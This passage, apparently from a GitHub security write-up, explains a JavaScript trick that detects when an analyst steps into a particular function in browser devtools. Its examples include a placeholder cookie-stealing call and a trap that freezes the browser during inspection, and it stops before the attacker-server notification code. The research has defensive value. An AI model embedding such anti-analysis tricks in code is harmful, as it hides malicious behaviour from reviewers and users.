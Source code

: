 ```javascript
function legit() {
    // do a legit action
    return 1 + 1;
}

function main() {
    legit();
    malicious();
}

debugger;
main();
```

Take the code above and run it in the devtools console twice:
On the first time, step into `main` function, in or over `legit` function (doesn't matter) and then step over `malicious` function.
No alert, right? `malicious` function was executed silently and was not debugged.

On the second time, do the same thing, only this time step in `malicious` function instead of over.
This time, you should get the alert. This is because after evaluating the `detect` variable which adds our special regex variable to the scope, the scope pane now has to display the name of the regex variable that is saved into the `detect` variable.

**This infect allows me to tell which function was debugged when the devtools were open and which wasn't. And not only I can tell that, but I can also choose what action to take when a function is being debugged, and execute that action in a different parallel thread with full access to the main thread!**

What's also very cool about this trick and will give a hard time to anyone trying to debug the attacker's code is that the callback to be called when the function is being debugged cannot be debugged in the devtools because it is a piece of code that is being called by the devtools itself.
Meaning the only way to successfully debug this function is via the developer tools of the developer tools! (you may read this paragraph as many times as you need to, no rush).

This for example will get the browser stuck only when the `malicious` function is debugged (based on the example above):

```javascript
function malicious() {
    const detect = (function(){
        const dummy = function(){};
        dummy.toString = () => {
            while (1) {}
        };
        return dummy;
    }());

    // do a malicious action
    if (window.stealUserCookies) window.stealUserCookies();
}
```

And this can silently notify the attacker's server when the `malicious` function is debugged without the user ever knowing:
